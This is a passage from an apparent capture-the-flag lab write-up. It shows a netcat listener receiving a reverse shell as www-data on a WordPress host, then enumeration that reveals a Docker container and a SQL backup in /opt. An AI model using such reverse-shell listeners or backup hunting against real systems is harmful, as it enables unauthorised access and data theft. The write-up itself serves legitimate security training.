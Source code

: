 ```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:51606.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$
```

## Privesc to user

Now that we have our initial shell, let us enumerate the system to get access as user to the box and read user.txt.

### Enumerating as www-data

Enumerating the machine, I quickly noticed that we are in a docker-environment. This was easy identifiable by either the `.dockerenv` file in the root-directory or via the ip-address.

```bash
www-data@blog:/$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:1e:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.30.0.10/24 brd 172.30.0.255 scope global eth0
       valid_lft forever preferred_lft forever
www-data@blog:/$ ls -alh /
ls -alh /
total 88K
drwxr-xr-x   1 root root 4.0K Apr 23 18:44 .
drwxr-xr-x   1 root root 4.0K Apr 23 18:44 ..
-rwxr-xr-x   1 root root    0 Apr 23 18:44 .dockerenv
```

With this information in the back of our minds, let us further enumerate the system. The only interesting users on the systems are `root` and `www-data`. Looking at the `/opt` directory we can find an interesting file:

```bash
www-data@blog:/opt/wordpress$ ls -alh
ls -alh
total 1.2M
drwxr-xr-x 1 root root 4.0K Apr 24 06:39 .
drwxr-xr-x 1 root root 4.0K Apr 13 13:37 ..
-rw-r--r-- 1 root root 1.2M Apr 24 06:39 backup-13-04-2020.sql
```
